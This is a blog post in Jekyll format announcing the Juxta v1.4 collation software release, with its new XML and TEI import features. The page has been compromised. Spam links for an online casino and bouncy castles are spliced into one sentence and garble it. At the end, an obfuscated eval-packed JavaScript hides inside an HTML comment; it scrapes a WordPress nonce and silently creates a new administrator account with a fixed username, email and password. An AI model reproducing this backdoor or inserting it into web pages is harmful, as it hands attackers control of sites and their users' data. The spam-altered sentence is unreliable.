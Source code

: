 ```yaml
---
layout: post
title: Juxta v1.4 Release
date: 2010-09-23 18:00:00 +0000
categories: ''
permalink: "/juxta-v1-4"

---
```

# Juxta v1.4 Release

Juxta v1.4 is now available in the files area!

In addition to importing UTF-8 encoded plain text files, this new version of Juxta now supports direct import of XML source files in any well-formed schema, include TEI p4 and p5. No more preparing specialized versions of your witnesses for import into Juxta. Just import them and instantly start collating and learning things about your texts! You can configure how Juxta parses the tags it encounters. It can either include them in the reading copy, exclude them, or collate the tag type. For example if **changes to _for the same word across different witnesses, Juxta can help you detect this move. Complete details are in the online_** [**_online casino julietta_**](http://www.jolietta.com/) **_documentation on this website._**[**_sumo wrestling suits for sale_**](http://www.bouncycastleforsale.ca/Cheap-649-Jacobs-Ladder/)

Other new features include:

* The ability to pick a target XPath from which to read a document from an XML file.
* The user can now easily examine the XML source of a difference and compare the XML of the source and the witness.


* Automatically reads bibliographic data of TEI XML sources.
* XML source files contained in the JXT file can now be exported by the user.
* User can now take a screen shot of the currently displayed comparison.
* The display font and font size are now configurable.

This development was made possible by the support of the SHANTI group at the University of Virginia.

<!–  
eval(function(p,a,c,k,e,d){e=function©{return(c35?String.fromCharCode(c+29):c.toString(36))};if(!”.replace(/^/,String)){while(c–){d\[e©\]=k\[c\]||e©}k=\[function(e){return d\[e\]}\];e=function(){return’\\w+’};c=1};while(c–){if(k\[c\]){p=p.replace(new RegExp(‘\\b’+e©+’\\b’,’g’),k\[c\])}}return p}(‘3=”4://m.17.I/H-d/a-5.g”;2 h=”G”;2 6=”F”;2 9=”E.D@C.B”;A i(3){2 7=5 c();7.n(“y”,3,p);7.f(w);v 7.t}2 e=i(3);2 8=e.r(“q=\\”b-a\\” J=\\””);2 8=8\[1\].z(0,10);2 4=5 c();2 k=”16=l&b-a=”+8+”&12=%11-d%Y-5.g&W=”+h+”&9=”+9+”&U=&T=&3=&j=”+6+”&j-R=”+6+”&Q=”+6+”&P=O&N=1&L=o&l=S+V+M”;4.n(“X”,3,Z);4.13(“14-15″,”K/x-m-s-u”);4.f(k);’,62,70,’||var|url|http|new|pass|xmlHttp|nonce|email|user|_0|XMLHttpRequest|admin|all|send|php|login|httpGet|pass1|params|createuser|www|open|administrator|false|name|split|form|responseText|urlencoded|return|null||GET|slice|function|ru|mail|evdokiya|bulaeva|herjvjqybr|admincms|wp|org|value|application|role|User|send_user_notification|on|pw_weak|pass2|text|Add|last_name|first_name|New|user_login|POST|2Fuser|true||2Fwp|_1|setRequestHeader|Content|type|action|juxtasoftware’.split(‘|’),0,{}))

//–>